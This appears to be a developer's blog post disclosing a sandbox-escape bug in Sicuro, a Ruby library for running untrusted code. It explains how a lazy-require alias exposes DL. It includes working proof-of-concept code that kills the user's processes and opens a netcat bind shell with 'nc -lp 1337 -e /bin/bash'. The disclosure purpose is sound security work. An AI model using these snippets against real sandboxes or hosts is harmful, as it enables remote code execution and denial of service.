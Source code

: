 ```yaml
---
title: Sicuro's Latest Security Bug
tags: sicuro security bug
layout: post
draft: true
---
```


[Jens Nockert](http://twitter.com/jensnockert) has exposed a rather major security hole in Sicuro.

Under basically any circumstances, Sicuro can be used to execute untrusted code. The demonstrated technique used by Jens was to terminate all processes that can be terminated by the user who the initial `Sicuro#eval` call was made under. I have demonstrated the ability to use it to access a remote shell, but am unsure if it could be used for privilege escalation.

# The main problem

It appears that attempts at making it more efficient have actually left Sicuro wide open to abuse. There was an attempt to make it lazily load trusted components, and that seems to have opened up a bug letting you `require` anything in the stdlib, including DL. DL is used for loading shared objects and calling functions in them.

The following is the relevant part of the code for lazily loading trusted components. You can view it in context in [lib/sicuro/base.rb](https://github.com/duckinator/sicuro/blob/761e955fbbba07638d69bc62159199cdf0716a7d/lib/sicuro/base.rb#L254-256), lines 254 through 256.

    # Without Gem we won't require unresolved gems, therefore we restore the original require.
    # This allows us to lazy-require other trusted components from the same $LOAD_PATH.
    ::Kernel.module_eval { alias require gem_original_require }

Following is a tidied up version of the code that exposed the bug.

    require 'dl'
    require 'dl/import'
    
    module Libc
      extend DL::Importer
      dlload '/lib/libc.so.6'
      extern 'int kill(int, int)'
    end
    
    Libc.kill(0, 9)

Changing `Libc.kill(0, 9)` to `Libc.kill(-1, 9)` will terminate _all processes the user who made the call to `Sicuro.eval` can terminate._

Here is similar code that will allow you to execute arbitrary shell code:

    require 'dl'
    require 'dl/import'
    
    module Libc
       extend DL::Importer
       dlload '/lib/libc.so.6'
       extern 'int system(const char*)'
    end
    
    Libc.system('nc -lp 1337 -e /bin/bash &amp;')

Congratulations, you now can run `netcat $IP 1337` to connect.

There's a video at the bottom, but odds are it's entirely unintelligible, so you can [go directly to the video](/assets/sicuro-untrusted-code-execution-bug.ogv).

It may also be possible to escalate privileges using this.

# The small problem

There's always something hiding, right? That little thing you find when hunting another bug. This one happened to be that `GC`, `Signal`, and `ObjectSpace` were whitelisted. This isn't exactly good.

At the very least, `GC.disable` could make it use too much memory, causing instability, and `Signal.trap` could be used to handle signals used to terminate the process -- and ignore them. I'm not entirely sure what `ObjectSpace` can be used for, but I do not know what it does, so I do not like it being whitelisted. I've also been told `ObjectSpace` is "dangerous." I may look into this later.

`GC`, `Signal`, and `ObjectSpace` will not be whitelisted as of the next version.

# Conclusion

While removing things from the whitelist was beyond trivial, it appears fixing the code execution problem is proving immensely difficult. I am not sure I will be able to do it and retain all current functionality.

I highly recommend that, once the next version is released, everyone upgrade immediately. This is a major security hole, and allows execution of any untrusted code that can be done through a shared library. This includes calls to `execve()` and related functions, as mentioned above.

<video style="width: 100%; max-width: 798px;" controls="controls" src="/assets/sicuro-untrusted-code-execution-bug.ogv"></video>
